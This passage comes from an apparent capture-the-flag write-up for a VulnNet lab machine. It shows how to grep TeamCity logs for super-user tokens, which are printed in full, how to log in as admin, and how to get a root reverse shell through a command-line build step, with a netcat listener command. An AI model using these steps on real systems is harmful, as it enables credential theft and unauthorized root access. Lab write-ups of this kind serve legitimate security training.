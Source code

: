 It requires a token. Searching for the `token` string in the logs directory reveals several tokens:

~~~
sys-internal@vulnnet-internal:/TeamCity$ grep -iR token /TeamCity/logs/ 2>/dev/null
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 4174796436262174108 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 4174796436262174108 (use empty username with the token as the password to access the server)
~~~

Using the last token, we can connect as super admin.

## Running commands on TeamCity

TeamCity is run by `root` on the target, which means that executing a reverse shell will grant us root access. After googling how to run commands on TeamCity, I found that it can be done via build steps in a project.

Create a project and go to build steps. Select "Command line" as "Runner type", and put a python3 reverse shell string as the script command:

![reverse-shell.png](files/reverse-shell.png)

Now, start a listener (`nc -nlvp 4444`) and click on the `run` button to run the command.
